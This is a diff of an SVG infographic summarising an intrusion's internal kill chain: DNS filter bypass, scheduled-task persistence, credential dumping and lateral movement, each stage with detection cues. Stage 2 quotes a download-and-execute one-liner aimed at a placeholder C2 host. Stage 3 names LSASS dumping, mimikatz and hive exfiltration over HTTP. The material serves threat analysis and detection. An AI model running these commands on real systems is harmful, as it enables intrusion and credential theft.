

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1000 1640" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, 'Helvetica Neue', Arial, sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1000 1440" font-family="-apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, 'Helvetica Neue', Arial, sans-serif">
  <defs>
    <marker id="arrow" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="6" markerHeight="6" orient="auto">
      <path d="M 0 0 L 10 5 L 0 10 z" fill="#cccccc" />
    </marker>
    <filter id="cardShadow" x="-2%" y="-2%" width="104%" height="108%">
      <feDropShadow dx="0" dy="2" stdDeviation="3" flood-color="#000" flood-opacity="0.55" />
    </filter>
  </defs>
-   <rect width="1000" height="1640" fill="#161616" />
-   <rect x="0.5" y="0.5" width="999" height="1639" fill="none" stroke="#2a2a2a" stroke-width="1" />
+   <rect width="1000" height="1440" fill="#161616" />
+   <rect x="0.5" y="0.5" width="999" height="1439" fill="none" stroke="#2a2a2a" stroke-width="1" />
  <text x="500" y="62" text-anchor="middle" font-size="40" font-weight="700" fill="#ffffff">The Internal Kill Chain</text>
  <text x="500" y="106" text-anchor="middle" font-size="24" fill="#f5f5f5">What the operator did once they had a foothold</text>
  <text x="500" y="140" text-anchor="middle" font-size="18" fill="#cccccc">Every stage is scripted, not improvised, and reuses one domain backdoor account</text>
  <line x1="60" y1="166" x2="940" y2="166" stroke="#2a2a2a" stroke-width="1" />
  <g filter="url(#cardShadow)">
    <rect x="60" y="196" width="880" height="220" rx="8" fill="#1a1a1a" stroke="#2a2a2a" stroke-width="1" />
    <rect x="60" y="196" width="880" height="46" rx="8" fill="#f97316" />
    <rect x="60" y="229" width="880" height="13" fill="#f97316" />
    <text x="80" y="227" font-size="17" font-weight="700" fill="#111111" letter-spacing="0.5">STAGE 1</text>
    <text x="220" y="227" font-size="23" font-weight="600" fill="#111111">Study the Environment, Bypass the DNS Filter</text>
    <text x="80" y="282" font-size="21" fill="#ffffff">Three scripts recon, then drive the appliance through its own admin API</text>
    <text x="80" y="316" font-size="17" fill="#e5e5e5" font-family="ui-monospace, 'Cascadia Mono', Menlo, monospace">jaction=getWhitelist, addwhitelist via the policy page's JSON API</text>
    <text x="80" y="350" font-size="18" fill="#e5e5e5">A planted AD DNS A record makes the operator's own name resolve inward</text>
    <text x="80" y="384" font-size="18" fill="#fb923c" font-weight="600">Detect: Add-DnsServerResourceRecordA planting an unfamiliar name</text>
  </g>
  <line x1="500" y1="416" x2="500" y2="456" stroke="#cccccc" stroke-width="2" marker-end="url(#arrow)" />
  <g filter="url(#cardShadow)">
    <rect x="60" y="462" width="880" height="220" rx="8" fill="#1a1a1a" stroke="#2a2a2a" stroke-width="1" />
    <rect x="60" y="462" width="880" height="46" rx="8" fill="#eab308" />
    <rect x="60" y="495" width="880" height="13" fill="#eab308" />
    <text x="80" y="493" font-size="17" font-weight="700" fill="#111111" letter-spacing="0.5">STAGE 2</text>
    <text x="220" y="493" font-size="23" font-weight="600" fill="#111111">Six Persistence Mechanisms, One Fileless Re-Pull</text>
    <text x="80" y="548" font-size="21" fill="#ffffff">Scheduled tasks forge their Author field and run hidden as SYSTEM</text>
    <text x="80" y="582" font-size="17" fill="#e5e5e5" font-family="ui-monospace, 'Cascadia Mono', Menlo, monospace">DownloadString('http://&lt;C2&gt;:42718/task_39.ps1') via iex</text>
    <text x="80" y="616" font-size="18" fill="#e5e5e5">Weekly re-pull, so removing the payload without the task removes nothing</text>
    <text x="80" y="650" font-size="18" fill="#fb923c" font-weight="600">Detect: a scheduled task whose action is a DownloadString one-liner</text>
  </g>
  <line x1="500" y1="682" x2="500" y2="722" stroke="#cccccc" stroke-width="2" marker-end="url(#arrow)" />
  <g filter="url(#cardShadow)">
    <rect x="60" y="728" width="880" height="220" rx="8" fill="#1a1a1a" stroke="#2a2a2a" stroke-width="1" />
    <rect x="60" y="728" width="880" height="46" rx="8" fill="#dc2626" />
    <rect x="60" y="761" width="880" height="13" fill="#dc2626" />
    <text x="80" y="759" font-size="17" font-weight="700" fill="#ffffff" letter-spacing="0.5">STAGE 3</text>
    <text x="220" y="759" font-size="23" font-weight="600" fill="#ffffff">Domain Admin, Then Three Routes to Credentials</text>
    <text x="80" y="814" font-size="21" fill="#ffffff">A new account is created and added straight to Domain Admins by script</text>
    <text x="80" y="848" font-size="17" fill="#e5e5e5" font-family="ui-monospace, 'Cascadia Mono', Menlo, monospace">LSASS minidump · mimikatz · SAM/SYSTEM/SECURITY hives PUT over HTTP</text>
    <text x="80" y="882" font-size="18" fill="#e5e5e5">EnableLUA and NLA are both disabled, widening the host's own exposure</text>
    <text x="80" y="916" font-size="18" fill="#fb923c" font-weight="600">Detect: a handle opened on lsass.exe followed by a large Temp write</text>
  </g>
  <line x1="500" y1="948" x2="500" y2="988" stroke="#cccccc" stroke-width="2" marker-end="url(#arrow)" />
  <g filter="url(#cardShadow)">
    <rect x="60" y="994" width="880" height="220" rx="8" fill="#1a1a1a" stroke="#2a2a2a" stroke-width="1" />
    <rect x="60" y="994" width="880" height="46" rx="8" fill="#7f1d1d" />
    <rect x="60" y="1027" width="880" height="13" fill="#7f1d1d" />
    <text x="80" y="1025" font-size="17" font-weight="700" fill="#ffffff" letter-spacing="0.5">STAGE 4</text>
    <text x="220" y="1025" font-size="23" font-weight="600" fill="#ffffff">Mass Deployment Across an Eighteen-Host Fleet</text>
    <text x="80" y="1080" font-size="21" fill="#ffffff">Seven scripts reuse the same domain backdoor over net use to reach every host</text>
    <text x="80" y="1114" font-size="17" fill="#e5e5e5" font-family="ui-monospace, 'Cascadia Mono', Menlo, monospace">certutil, xcopy, WMI process create, all falling back to the next on failure</text>
    <text x="80" y="1148" font-size="18" fill="#fb923c" font-weight="600">Detect: wmic /node invoking certutil against an admin share</text>
    <text x="80" y="1180" font-size="18" fill="#fb923c" font-weight="600">One blocked transfer path does not stop the deployment</text>
  </g>
  <line x1="60" y1="1260" x2="940" y2="1260" stroke="#2a2a2a" stroke-width="1" />
  <text x="500" y="1294" text-anchor="middle" font-size="18" font-weight="600" fill="#ffffff">Detection anchors: DownloadString scheduled task, lsass.exe handle plus Temp write</text>
  <text x="500" y="1324" text-anchor="middle" font-size="18" font-weight="600" fill="#ffffff">wmic /node certutil against an admin share</text>
  <text x="500" y="1360" text-anchor="middle" font-size="15" fill="#cccccc">Staged capability throughout, proven by the operator's own scripts, not confirmed as executed on every host</text>
  <text x="500" y="1392" text-anchor="middle" font-size="14" fill="#888888">Legend: orange = environment study · yellow = persistence · red = credential access · deep red = lateral movement</text>
</svg>
